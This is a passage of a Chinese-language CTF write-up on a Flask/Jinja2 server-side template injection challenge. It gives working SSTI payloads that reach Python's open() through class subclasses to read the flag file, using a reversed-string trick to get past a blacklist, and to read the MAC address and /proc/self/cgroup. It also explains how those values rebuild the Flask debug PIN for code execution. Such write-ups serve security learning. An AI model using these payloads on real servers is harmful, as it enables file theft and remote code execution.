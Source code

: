 *   可以得知文件名`this_is_the_flag.txt`，当然直接访问是不可能的。

*   第二步。最强的操作，用`[::-1]`来讲字符串倒序，绕过flag黑名单。这样直接像上面读源码一样读取flag。

    ```
    {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('txt.galf_eht_si_siht/'[::-1], 'r').read() }}{% endif %}{% endfor %} 
    ```

*   预期解的话就是利用PIN码进行RCE。

*   flask的debug模式下，网页输入pin码可以进行调试，也就是可以执行python代码。所以我们的目的是获取PIN码。如何生成，

> 通过PIN码生成机制可知，需要获取如下信息
> 
> > 服务器运行flask所登录的用户名。通过/etc/passwd中可以猜测为flaskweb 或者root，此处用的flaskweb
> > 
> > > modname。一般不变就是flask.app
> > > 
> > > > getattr(app, “__name__”, app.__class__.__name__)。python该值一般为Flask，该值一般不变
> > > > 
> > > > > flask库下app.py的绝对路径。报错信息会泄露该值。题中为/usr/local/lib/python3.7/site-packages/flask/app.py
> > > > > 
> > > > > > 当前网络的mac地址的十进制数。通过文件/sys/class/net/eth0/address 获取(eth0为网卡名)
> > > > > > 
> > > > > > > 机器的id
> > > > > > 
> > > > > > *   除一般不变的，我们还需要读取当前网络的mac地址的十进制数和机器id
> > > > > >     
> > > > > >     
> > > > > > *   其中，读取mac地址的话，依旧像上面读取题目源码一样读取`/sys/class/net/eth0/address`来获取。
> > > > > >     
> > > > > >     
> > > > > >     
> > > > > >     ```
> > > > > >     {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/sys/class/net/eth0/address', 'r').read() }}{% endif %}{% endfor %} 
> > > > > >     ```
> > > > > >     
> > > > > >     
> > > > > > *   读取后转换为十进制。
> > > > > >     
> > > > > >     
> > > > > > 
> > > > > > ```
> > > > > > mac ='02:42:ae:01:0d:25'.replace(':','')
> > > > > > print(int(mac,base=16)) 
> > > > > > ```
> > > > > > 
> > > > > > *   然后就是机器码。虽然同样也是读文件来获取，但环境不同读取的文件也不同。题目环境为docker搭建，所以，读取机器码的文件名就应该为/proc`/self/cgroup`
> > > > > >     
> > > > > >     
> > > > > >     
> > > > > >     ```
> > > > > >     {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/proc/self/cgroup', 'r').read() }}{% endif %}{% endfor %} 
> > > > > >     ```
> > > > > >     
> > > > > >     
> > > > > > *   其中机器码的形式为